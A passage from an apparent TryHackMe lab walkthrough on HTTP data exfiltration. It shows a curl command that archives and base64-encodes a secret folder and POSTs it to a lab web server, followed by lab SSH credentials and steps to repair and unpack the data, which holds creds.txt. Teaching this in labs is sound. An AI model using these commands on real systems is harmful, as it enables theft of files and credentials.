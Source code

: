 Now that we have our data, we will be using the curl command to send an HTTP POST request with the content of the secret folder as follows,

Sending POST data via CURL

```markup
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```

We used the curl command with --data argument to send a POST request via the file parameter. Note that we created an archived file of the secret folder using the tar command. We also converted the output of the tar command into base64 representation.

Next, from the **victim1 or JumpBox** machine, let's log in to the webserver, web.thm.com, and check the /tmp directory if we have successfully transferred the required data. Use the following SSH credentials in order to login into the web: thm:tryhackme.

Checking the received data

```markup
thm@victim1:~$ ssh thm@web.thm.com 
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==
```

Nice! We have received the data, but if you look closely at the http.bs64 file, you can see it is broken base64. This happens due to the URL encoding over the HTTP. The + symbol has been replaced with empty spaces, so let's fix it using the sed command as follows,

Fixing thehttp.bs64 file!

```markup
thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64
```

Using the sed command, we replaced the spaces with + characters to make it a valid base64 string!

Restoring the Data

```markup
thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```

Finally, we decoded the base64 string using the base64 command with -d argument, then we passed the decoded file and unarchived it using the tar command.

### HTTPS Communications

In the previous section, we showed how to perform Data Exfiltration over the HTTP protocol which means all transmitted data is in cleartext. One of the benefits of HTTPS is encrypting the transmitted data using SSL keys stored on a server.
